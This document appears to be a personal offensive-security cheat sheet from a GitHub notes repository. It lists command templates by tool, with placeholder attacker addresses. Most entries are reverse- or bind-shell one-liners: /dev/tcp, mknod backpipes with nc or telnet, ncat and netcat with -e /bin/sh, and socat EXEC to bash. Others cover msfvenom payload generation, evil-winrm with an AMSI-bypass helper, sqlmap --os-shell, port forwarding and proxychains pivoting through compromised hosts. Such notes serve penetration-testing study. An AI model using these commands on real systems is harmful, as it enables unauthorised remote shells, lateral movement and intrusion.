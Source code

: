# [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <username> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
#### `evil-winrm -i X.X.X.X -u <username> -e <path/on/attack>`
#### `Invoke-Binary <path/to/csharpexe>`
#### `Donut-Loader`
#### `Bypass-4MSI`
  * -s allows you to load powershell scripts from Kali to the victim
  * Invoke-Binary runs C# executables in memory; the executables must be in the path set by the -e flag in the prior command
  * Donut-Loader and Bypass-4MSI look useful but I don't know how to use them yet

# [mknod](https://man7.org/linux/man-pages/man1/mknod.1.html):
#### `mknod /tmp/backpipe p`
#### `/bin/sh 0</tmp/backpipe | nc X.X.X.X YYY 1>/tmp/backpipe`
#### `mknod /tmp/backpipe p && telnet X.X.X.X YYY 0</tmp/backpipe | /bin/sh 1>/tmp/backpipe`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports
  
# [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts):
#### `netsh interface portproxy add v4tov4 listenport=YYY listenaddress=X.X.X.X connectport=BBB connectaddress=A.A.A.A`
#### `netsh advfirewall firewall add rule name="rule_name" protocol=TCP dir=in localip=X.X.X.X localport=YYY action=allow`  
  * Above interface command creates a listener on X.X.X.X:YYY that forwards to A.A.A.A:BBB
  * Above advfirewall command creates a firewall rule that allows inbound traffic to X.X.X.X:YYY

# [proxychains](https://www.unix.com/man-page/debian/1/proxychains/):
#### `cat /etc/proxychains.conf`
#### `socks4 127.0.0.1 YYY`
#### `proxychains command`
  * Combine with `ssh -N -D` to source a given command through a pre-established tunnel
    * For instance you could nmap a machine on an internal network from an already-compromised host on that network

# [rinetd](https://manpages.debian.org/unstable/rinetd/rinetd.8.en.html):
#### `nano /etc/rinetd.conf`
#### `X.X.X.X YYY A.A.A.A BBB (in the conf file)`
#### `service rinetd restart`
  * Redirects traffic received on YYY from X.X.X.X to A.A.A.A:BBB
    * X.X.X.X can be 0.0.0.0 to redirect traffic from any source
  * Restart the service after changing the configuration file to apply changes

# [socat](https://linux.die.net/man/1/socat):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink <username>@X.X.X.X`
#### `ssh <username>@X.X.X.X`
#### `ssh -i ~/.ssh/keyfile username@X.X.X.X`
  * Establishes secure shell on the remote host with the provided username and password
  * -i specifies a key file to instead of a password
  * -p defines a port to connect to in the case on non-standard ssh ports
  * See pairing with [tunneling flags](https://github.com/kmanc/offensive_security/blob/master/notes/proxies.md#ssh) and Proxychains [proxies.md](https://github.com/kmanc/offensive_security/blob/master/notes/proxies.md#proxychains) for pivoting around a compromised network

# [telnet](https://linux.die.net/man/1/telnet):
#### `nc -nlvp YYY`
#### `nc -nlvp ZZZ`
#### `telnet X.X.X.X YYY | /bin/sh | telnet X.X.X.X ZZZ`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
  * Run the top two commands on the attacker machine, then the bottom command on the victim
  * Type commands into the first shell window, then read the output from the second shell window

